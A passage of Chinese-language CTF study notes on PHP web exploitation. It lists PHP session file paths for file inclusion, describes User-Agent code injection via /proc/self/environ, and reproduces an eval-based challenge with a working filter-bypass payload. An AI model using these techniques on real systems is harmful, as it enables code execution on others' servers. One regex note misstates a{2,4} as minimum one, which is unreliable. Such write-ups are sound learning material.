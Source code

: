 - `/var/lib/php/sess_PHPSESSID`
- `/tmp/sess_PHPSESSID`
- `/tmp/sessions/sess_PHPSESSID`

#### UA绕过

PHP目录下的`proc/self/environ`会保存`user-agent`头，如果在其中写入php代码，包含该文件的时候就可以被解析从而达到注入效果

不过注意仅当php以cgi方式运行的时候才会保持UA头

### eval判断/短标签

就算是eval存在于判断中，但是里面的语句还是要先执行了得先，因此我们或许不需要管到底判断了什么东西，直接输出我们需要的东西即可

```php
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo '长度不允许';
    }
    else if (preg_match('/`|"|\.|\\\\|\(|\)|\[|\]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo '关键字不允许';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo '马老师发生甚么事了';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

在其中一条中看到了eval，那么它就是我们获取flag的关键，只需要因此eval后面的内容都不用看了，直接对前面的检查进行绕过即可，反正执行到eval就会输出我们想要的

构造`?flag=$a=%27blag%27;$a{0}=%27f%27;?>11111111111111111;<?=$$a;?>`

- Get请求只通过&分隔，后面的一大串都能变成flag的值
- flag在变量里，不需要调用系统文件，同时也检查了`/`因此可以先不考虑文件包含
- 排除了`[]`就用`{}`，排除了flag就自己定义变量构造，连接符`.`被排除了就用数组替换
- `<?= ?>`相当于`<?php echo ""?>`可以绕过php、echo单词检查

### 正则表达式

- `[[:punct:]]`表示任何标点符号（字符簇），但是某些测试工具并不支持，就离谱
- `()`是分组信号，事实上没什么卵用
- `a{2,4}`表示匹配a字符最少一次最多四次
- `*`和`?`表示的是前面的那个字符的若干次u，并不是任意字符，和文件搜索不一样
- `:`冒号一般来说没什么意义
